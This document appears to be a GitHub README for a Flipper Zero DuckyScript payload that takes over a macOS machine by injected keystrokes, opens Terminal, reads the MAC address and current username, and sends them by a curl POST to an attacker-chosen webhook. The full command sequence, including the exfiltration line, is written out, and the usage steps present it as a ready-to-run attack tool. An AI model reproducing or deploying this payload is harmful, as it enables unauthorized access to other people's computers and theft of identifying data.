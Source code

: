 # 🖥️ GetMacAddress-FlipZero by bst04

## ℹ️ Description

This payload, created by bst04, is designed to retrieve the MAC address and username from a macOS system and send this information to a specified webhook.

---

## 📖 Technical Explanation

1. **Initialization**:
    - `DELAY 1000`: Waits for 1 second to ensure the system is ready.
    - `GUI SPACE`: Simulates pressing "Command" + "Space" to open Spotlight Search.
    - `DELAY 250`: Waits for 0.25 seconds to ensure Spotlight is open.
    - `STRING TERMINAL`: Types "TERMINAL" to search for the Terminal application.
    - `DELAY 250`: Waits for 0.25 seconds.
    - `ENTER`: Opens the Terminal application.

2. **Retrieve MAC Address**:
    - `DELAY 750`: Waits for 0.75 seconds to ensure Terminal is fully opened.
    - `STRING mac=$(networksetup -getmacaddress en0)`: Retrieves the MAC address of the primary network interface.
    - `DELAY 750`: Waits for 0.75 seconds.
    - `ENTER`: Executes the command to get the MAC address.

3. **Retrieve Username**:
    - `DELAY 750`: Waits for 0.75 seconds.
    - `STRING name=$(id -un)`: Retrieves the current user's username.
    - `DELAY 750`: Waits for 0.75 seconds.
    - `ENTER`: Executes the command to get the username.

4. **Send Data to Webhook**:
    - `DELAY 850`: Waits for 0.85 seconds.
    - `STRING curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "content=User:$name | $mac" https://webhook`: Sends the MAC address and username to the specified webhook.
    - `DELAY 800`: Waits for 0.8 seconds.
    - `ENTER`: Executes the command to send data to the webhook.

---

## 📜 Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a macOS system.
3. Replace `https://webhook` with your actual webhook URL.
4. Execute the payload to retrieve the MAC address and username, then send the data to the specified webhook.


